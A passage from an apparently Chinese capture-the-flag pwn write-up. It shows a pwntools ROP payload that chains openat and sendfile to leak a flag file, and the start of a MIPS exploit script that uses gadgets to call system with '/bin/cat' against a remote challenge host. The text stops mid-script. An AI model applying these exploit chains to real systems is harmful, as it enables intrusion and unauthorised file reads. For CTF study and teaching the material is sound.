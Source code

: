 ```Python

payload = flat([
    code_base + 0x104060 + 0x40,
    # 构造openat
    pop_rdi, -100,
    pop_rsi, stack - 0x18,
    pop_rdx_r12, 0, 0,
    xor_r10_mov_eax_r10,
    openat_addr,
    # 构造sendfile
    pop_rdi, 1,
    pop_rsi, 3,
    pop_rdx_r12, 0, 0,
    sendfile_addr
])
pause()
p.send(payload)

p.interactive()
```

# EZ3.0

第一次遇见MIPS架构的题目，后面再写专门的知识点。[MIPS](https://hnusec-team.feishu.cn/wiki/YQVhwbhe9ifWarkOaSDc7aBCnsf)

题目很简单，有`system`函数，有`/bin/cat falg.txt`，只需要找到`gadgets`来赋值即可

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=Y2RlMzk5OTBhYjUyNjY0NDRhYzhhMGM4Y2E4MDFiNTJfZmE5NUlnbVB1R0ZBOUlqV3F6Z0lMWXBTVU5YYU5mb3BfVG9rZW46Wk0xdWJtSGpyb1BWQjl4cEdMMWNqdWZKbk1iXzE3NDUxMzc1MTE6MTc0NTE0MTExMV9WNA)

很阴的是这个 `gadgets` 我的`ghidra`最开始还没显示，结果找了半天找不到合适的`gadgets`，后面问了组里的师傅才知道，结果`disasmble`一下又出来了

圈中部分即是`gadgets`，`a0`存放`/bin/cat`的地址，然后`t9`跳转`system`即可

```Python
from pwn import *

context(arch='mips', endian='little', log_level='debug')
ip, port = "47.94.204.178:37016".split(":")
elf_path = './EZ3'
local = False
debug = False
debugger = '''
    b main
'''
if local:
    p = process(["qemu-mipsel", "-g", "1234", "-L", "/usr/mipsel-linux-gnu/", elf_path])
    if debug:
        gdb.attach(p, gdbscript='''
            target remote localhost:1234
            b *0x400830
            c
        ''')

else:
    p = remote(ip, port)

elf = ELF(elf_path)
bss = elf.bss()
system = elf.sym['system']
read = elf.sym['read']
binls = 0x400c88
bincat = 0x411010
backdoor = 0x4009c8
ret = 0x400a14
```